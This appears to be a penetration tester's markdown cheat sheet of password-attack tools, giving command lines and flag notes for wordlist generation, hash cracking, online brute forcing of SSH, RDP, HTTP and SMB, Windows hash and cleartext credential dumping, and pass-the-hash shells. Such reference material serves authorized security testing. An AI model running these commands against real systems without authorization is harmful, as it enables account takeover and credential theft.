 # [cewl](https://tools.kali.org/password-attacks/cewl):
#### `cewl <website.com> -m 6 -w <hash_file>`
  * -m sets the minimum word length
  * -w writes to a file

# [crunch](https://tools.kali.org/password-attacks/crunch):
#### `crunch 6 6 0123456879abcdef -o <hash_file>`
   * first param is min password size
   * second param is max password size
   * custom alphabets supported
   * -t allows you to specify a pattern, but the syntax isn't intuitive
   
# [fgdump](https://web.archive.org/web/20191202010850/http://foofus.net/goons/fizzgig/fgdump/):
#### `fgdump.exe`
  * dumps password hashes from older Windows versions

# [hashcat](https://tools.kali.org/password-attacks/hashcat):
#### `hashcat -m 110 <hash_file> <wordlist_file> --force`
#### `hashcat -m <1000/5500/5600> -a 0 <hash_file> <wordlist_file> -O`
  * -m specifies hash type; see the man page for reference
    * 1000 for NTLM, 5500 for Net-NTLMv1, 5600 for Net-NTLMv2
  * --force ignores warnings
  * -a specifies attack type; see the man page for reference
    * 0 for wordlist, 3 for brute force
  * cached results are in `~/.hashcat/hashcat.potfile`

# [hydra](https://tools.kali.org/password-attacks/hydra):
#### `hydra -l <username> -P <hash_file> -t 10 ssh://X.X.X.X`
  * -l chooses username (caps for file)
  * -p chooses password (caps for file)
  * -t specifies number of tasks to run in parallel
  * -w makes hydra wait in between attempts to avoid being blocked

# [medusa](https://web.archive.org/web/20191115182453/https://www.mankier.com/1/medusa):
#### `medusa -h X.X.X.X -u <username> -P <hash_file> -M http -m <directory> -T 20`
#### `medusa -H <host_file> -u <username> -M smbnt -m PASS:HASH`
  * -T determines number of threads
  * -M specifies the module to run
  * -m specifies parameters to pass
  * -n for non-default TCP port numbers
  * -f stops once a valid user/pass combo is found
  
# [ncrack](https://tools.kali.org/password-attacks/ncrack):
#### `ncrack -v -f --user <username> -P <hash_file> rdp://X.X.X.X CL=1`
  * -CL determines number of open connections at a time
  * -f stops after a valid user/pass combo is found

# [pth suite](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/):
#### `pth-winexe -U  <username> //X.X.X.X cmd`
  * there are many modules in the pth suite, check them out

# [john the ripper](https://tools.kali.org/password-attacks/john):
#### `john <hash_file>`
#### `john --wordlist=<wordlist> <hash_file>`
#### `john --format=<nt/netntlm/netntlmv2> --wordlist=<wordlist> <hash_file>`
  * --wordlist[=<hash_file>] allows you to give it the word you want to run against the hash
  * --fork[=n] allows you to spawn multiple processes
  * --session[=<name>] names a session that you can restore later
  * --restore[=<name>] restores the session
  * /etc/john/john.conf can be used to do password fuzzing on an existing wordlist (adding numbers for instance)
  * nt for NTLM, netntlm for Net-NTLMv1, netntlmv2 for Net-NTLMv2

# [windows credential editor](https://web.archive.org/web/20191202011255/https://www.ampliasecurity.com/research/wcefaq.html):
#### `wce32.exe -w`
  * -w dumps cleartext logon passwords
  * -o specifies an output file
  * -g generates an NTLM hash for the supplied cleartext password
